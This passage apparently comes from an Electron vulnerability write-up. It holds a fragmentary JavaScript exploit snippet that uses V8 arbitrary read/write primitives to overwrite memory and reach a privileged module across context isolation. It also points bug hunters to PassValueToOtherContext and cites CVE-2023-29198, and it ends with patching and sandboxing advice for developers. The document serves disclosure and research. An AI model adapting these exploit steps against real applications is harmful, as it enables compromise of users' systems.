 ```c++
console.log(111)
    source_addrof = (exp_r &0xffffffffn) + 353016n;
    console.log("[+] source_addrof : " +source_addrof.hex());
    

    regexp_source = primitive.half_aar64(source_addrof+8n+4n);
    console.log("[+] regexp_source_str: "+regexp_source.hex());

     primitive.full_aaw(0x16bf081dee29n+8n, 0x64726f6373696444n);
     regexp_source = primitive.half_aar64(source_addrof+8n+4n);
    console.log("[+] after regexp_source_str: "+regexp_source.hex());

   %DebugPrint(exposedObject); 
    console.log(exposedObject.requireModule('erlpack'));    

    )";
```


#### PassValueToOtherContext for bug hunters
This is not a issue, but a pointer to bug hunters for to find some interesting context isolation bypass, [PassValueToOtherContext](https://github.com/electron/electron/blob/main/shell/renderer/api/electron_api_context_bridge.cc#L136C27-L136C50) is particularly interesting function, it passes objects from isolated cotnext to main context, if not implemented correctly or missed some behaviour this would allow leaking isolated context objects or fucntions to main cotnext. few example cve
a. [CVE-2023-29198](https://github.com/electron/electron/security/advisories/GHSA-p7v2-p9m8-qqg7) Error thrown in isolated context leaked to main allows bypass. Diff [here](https://github.com/electron/electron/compare/v23.2.1...v23.2.3#diff-678990291ce65586b9e4e509f021d2d699ba5ca164b2a0569c5342c60ab548b4)
b. 3 more context isolation bypass via leaked objects in main context [here](https://github.com/electron/electron/security?page=2)

#### To Developers of Electron Applications
Update Electron Promptly: Always update Electron to the latest version as soon as it’s available. This minimizes the risk from any recently patched vulnerabilities in V8 and Electron. Regular updates are crucial to maintaining the security of your application.

Enable Sandboxing: Use Electron’s sandboxing feature to further reduce the attack surface. By isolating renderer processes, sandboxing adds an extra layer of security that helps contain potential exploits, even in the presence of vulnerabilities.






